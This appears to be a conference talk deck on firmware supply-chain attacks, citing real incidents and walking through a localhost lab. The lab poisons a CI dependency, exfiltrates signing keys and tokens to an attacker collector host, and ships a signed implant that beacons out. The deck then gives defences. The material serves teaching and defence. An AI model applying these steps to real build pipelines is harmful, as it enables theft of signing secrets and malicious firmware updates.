


Firmware supply-chain attacks: the heists, the mechanics, the proof
Daniel Schwendner (@code_byter) · Ekoparty 2026 · Hardware Hacking Village

60 seconds: how releases get built and shipped.
Real cases, 2020 to 2026, one attack chain.
One config line, one test vendor, on screen.
The whole lab playable at home after the talk.
AMI test key source comment, leaked into production UEFI firmware. PKfail, 2024.
ShadowHammer, 2019. The vendor's own signature, on the attacker's update.
Every device in this room trusts a signature. These vendors did too.

How the chain breaks in the wild. Five heists, one chain.
"26 open source projects were backdoored by this malware and were actively serving backdoored code" [12]
"caused many repositories to leak their secrets" [6]
"a sophisticated supply chain attack involving the ASUS Live Update Utility" [9]
"malicious firmware images signed with the legitimate build key" [2]
Takeaway: provenance proves WHO built it, never WHAT it is.
None of these mechanisms is broken.
Composition is the vulnerability.
Why firmware, why the pipeline, and why you cannot ask the device for the truth.
No user is watching when it updates.
Fielded for years, patched never.
Nobody watches its network traffic.
ESPHome's own threat model lists "Supply-chain attacks against ESPHome or its dependencies." [11]
The rest of this talk replays that chain, then reads the flash chip.
The whole chain, replayed against a fictional vendor.
Stages mirror the kit's .gitlab-ci.yml: build, sign, deploy. The magenta paths are what you will watch land live.
# vendor CI, build job $ pip install -r requirements.txt \ --extra-index-url $EXTRA_INDEX_URL Downloading .../doorbellino_hal-2.0.0.tar.gz
Expected: pip picks the attacker's version.
# end of the build job log $ cat dbg-hook.txt inject: implant at 0x1E0000
Expected: dbg-hook.txt in the job log.
# collector exfil: loot sent to collector $ curl -s http://collector:9000/log | tail -n1 {"kind": "loot", "body": { "SIGNING_KEY": "…", "OTA_PUSH_TOKEN": "…", "GITLAB_TRIGGER_TOKEN": "…"}}
# device serial [ota] applied 1.4.3: verify OK (ed25519, vendor key) # no user prompt. no warning. a normal-looking update.
One stack up, one seed run: pipeline green, first release ships, the device applies it.
15 min
Find the ONE line in .gitlab-ci.yml that lets a public package win.
20 min
Arm the vendor's public HAL into a build hook: inject, exfiltrate, fire the deploy.
45 min
The device applies your release. Signature valid. Beacon lands. Every signal green.
15 min
Dump the flash: the implant bytes, the signature that covers them, the timeline.
30 min
One fix, then re-run the attack unchanged: the pipeline must reject it.
30 min
One laptop, Docker, ~2.5 h solo. Everything on 127.0.0.1: nothing leaves your machine. Flags are checked from artifacts by a grader script, not from claims. Optional ESP32 hardware tier, ~EUR 6.
Proving it after the fact: three witnesses, two fail.
# the device, reporting itself [serial] DoorBellino firmware 1.4.2 # the flash, telling the truth + 60 bytes at the implant slot
$ xxd -s $((0x200000 + 0x1E0000)) -l 64 flash.img IMPLANT|beacon->collector:9000|fw_ver_lie=1.4.2|int=30s|pad # verification model: sha256 vs manifest, sig = last 64 bytes
$ curl -s http://collector:9000/log | tail -n1 {"kind": "beacon", "body": {"id": "DB-001", "fw_ver": "1.4.2", "key_fpr": "stolen-vendor-key"}} # fw_ver comes from the implant's config bytes in flash. # It is the LIE, echoed to the attacker's own server.
All five artifacts survive after the device is unplugged.
Allowlist internal names. The public index never gets asked.
The build talks to the package index. Nothing else.
Verify who built the artifact, not just who signed it.
Assert the implant slot is zero after pip runs. Live proof: seed-pipeline-poison.sh reorders the pipeline and it goes RED.
Dump the flash before the release ships. Monitor for a beacon that should not exist.
| Ref | Source | Verified quote |
|---|---|---|
| [2] | OpenWrt advisory | "This results in the production of malicious firmware images signed with the legitimate build key." |
| [3] | Red Hat CVE-2024-8105 | "It is a firmware supply-chain issue that affects hundreds of device models in the UEFI ecosystem." |
| [6] | Wiz, tj-actions | "A supply chain attack on popular GitHub Action tj-actions/changed-files caused many repositories to leak their secrets." |
| [8] | Unit 42, Shai-Hulud | "...the novel, self-replicating worm as 'Shai-Hulud,' responsible for the compromise of hundreds of software packages." |
| [9] | Kaspersky, ShadowHammer | "In January 2019, we discovered a sophisticated supply chain attack involving the ASUS Live Update Utility." |
| [11] | ESPHome threat model | "Supply-chain attacks against ESPHome or its dependencies." |
| [12] | GitHub, Octopus Scanner | "26 open source projects were backdoored by this malware and were actively serving backdoored code." |
| [13] | Microsoft Threat Intelligence, May 2026 | "The packages impersonate internal corporate packages across nine different organizational scopes using a dependency confusion technique..." |
| [14] | CSA, May 2026 | Mini Shai-Hulud: 373 malicious versions, 172 packages, valid SLSA Build L3 provenance. |
| [15] | Elastic / Datadog, Aug 2026 | CHAINDROP: keyv maintainer compromised, worm backdoors co-owned packages, 150M+ weekly downloads. |
| [16] | Snyk / Aikido, Mar 2026 | axios maintainer hijack: malicious 1.14.1 / 0.30.4, ~100M weekly downloads, hidden dep deploys a RAT. |
ledger.json + briefing-sources/ on file. Quotes verified against the primary posts before deck use.